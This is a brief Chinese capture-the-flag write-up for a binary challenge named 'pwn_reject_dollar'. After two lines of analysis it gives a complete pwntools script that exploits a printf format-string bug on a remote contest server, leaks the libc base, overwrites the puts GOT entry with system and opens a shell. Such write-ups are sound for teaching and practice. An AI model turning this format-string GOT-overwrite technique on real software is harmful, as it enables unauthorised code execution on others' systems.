



## pwn_reject_dollar

怎么全是二进制？
先用圣母进行一个逆向


注意到可以注入攻击printf函数，但需要想办法绕过排序函数




然后就是普通的printf函数注入了
```py
from pwn import *

p=remote('isg.idss-cn.com',20822)
# p = gdb.debug("./pwn","b *0x4015ED")
libc = ELF("./libc.so.6")
elf = ELF("./pwn")

def read(content):
    p.sendlineafter("e > ","1")
    p.sendlineafter("ge > ",content)

def printf():
    p.sendlineafter("e > ", "2")

def puts():
    p.sendlineafter("e > ", "3")

def pwn():
    read("\n"+"%d"*42+".%p.")
    printf()
    p.recvuntil(".")
    libc.address = int(p.recvuntil(".")[:-1],16)-0x29d90
    system = libc.symbols['system']
    print('libc:',hex(libc.address))
    payload = b'\n'+b'%c'*0x20+b'%'+str((system&0xffff)-0x21).encode()+b'c%hn%'+str(((system>>16)&0xffff)-(system&0xffff)).encode()+b'c%hn'
    payload = payload.ljust((0x22-8)*8)+p64(elf.got['puts'])
    payload = payload.ljust((0x24-8)*8)+p64(elf.got['puts']+2)
    read(payload)
    printf()
    read("/bin/sh\x00")
    puts()
    p.interactive()

pwn()
```

运行结果截图
